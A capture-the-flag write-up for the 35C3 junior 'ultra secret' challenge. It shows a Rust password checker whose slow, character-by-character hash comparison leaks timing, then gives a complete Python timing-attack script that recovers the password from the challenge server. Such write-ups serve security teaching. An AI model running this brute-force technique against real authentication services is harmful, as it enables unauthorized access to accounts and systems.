 # ultra secret

## Challenge

This flag is protected by a password stored in a highly sohpisticated chain of hashes. Can you capture it nevertheless? We are certain the password consists of lowercase alphanumerical characters only.

nc 35.207.158.95 1337

[Source](https://35c3ctf.ccc.ac/uploads/juniorctf/ffb8d1ab6ff961419bee1cf1cddfb2e5-ultra_secret.tar)

Difficulti estimate: Easy-Medium

## Solution

The source code is given, so let's have a look at it:

```rust
extern crate crypto;

use std::io;
use std::io::BufRead;
use std::process::exit;
use std::io::BufReader;
use std::io::Read;
use std::fs::File;
use std::path::Path;
use std::env;

use crypto::digest::Digest;
use crypto::sha2::Sha256;

fn main() {
    let mut password = String::new();
    let mut flag = String::new();
    let mut i = 0;
    let stdin = io::stdin();
    let hashes: Vec<String> = BufReader::new(File::open(Path::new("hashes.txt")).unwrap()).lines().map(|x| x.unwrap()).collect();
    BufReader::new(File::open(Path::new("flag.txt")).unwrap()).read_to_string(&mut flag).unwrap();

    println!("Please enter the very secret password:");
    stdin.lock().read_line(&mut password).unwrap();
    let password = &password[0..32];
    for c in password.chars() {
        let hash =  hash(c);
        if hash != hashes[i] {
            exit(1);
        }
        i += 1;
    }
    println!("{}", &flag)
}

fn hash(c: char) -> String {
    let mut hash = String::new();
    hash.push(c);
    for _ in 0..9999 {
        let mut sha = Sha256::new();
        sha.input_str(&hash);
        hash = sha.result_str();
    }
    hash
}
```

From studying the source code we can learn that every character from the password we provide
will be chain hashed 10'000 times and then compared to the corresponding hash in the `hashes.txt` file.
So, the first character of the password will be hashed and compared to the first hash in `hashes.txt`.
The second character of the password will be hashed and compared to the second hash in `hashes.txt`.
And so forth ...

A soon as the first hash doesn't match the program terminates.
If all the hashes matched, the flag is revealed.

The problem with the above program is that chain hashing 10'000 times takes a measurable amount of time.
Thus, we can launch a timing attack.
The longer a password takes to verify the more characters from the beginning of the password are correct.
With that in mind and a few Python lines later we can exploit the timing of the hash algorithm and
get to the hash.

```python
import time
import socket

POSSIBLE_CHARS = "abcdefghijklmnopqrstuvwxyz0123456789"
HOST = "35.207.158.95"
PORT = 1337
PASS_LEN = 32

guessed_chars = []

for i in range(PASS_LEN):
    best_char = ("a", float("-inf"))
    for c in POSSIBLE_CHARS:
        # construct the new password guess
        guess = (
                "".join(guessed_chars) + c * (PASS_LEN - len(guessed_chars))
        ).encode("ascii")

        # connect to the exploitable service and provide the password
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((HOST, PORT))
        start = time.time_ns()
        s.recv(4096)  # read but ignore the prompt
        s.send(guess + b"\n")
        flag = s.recv(4096)
        end = time.time_ns()

        if flag:
            print("Profit from the flag: '{}'".format(flag))
            exit(0)

        duration = end - start
        if duration > best_char[1]:
            best_char = (c, duration)
        s.close()

    guessed_chars.append(best_char[0])
    print("Best character for {} is {} leading to {}".format(
        i, best_char[0], "".join(guessed_chars)))

print("Guessed password is:", "".join(guessed_chars), guessed_chars)
```
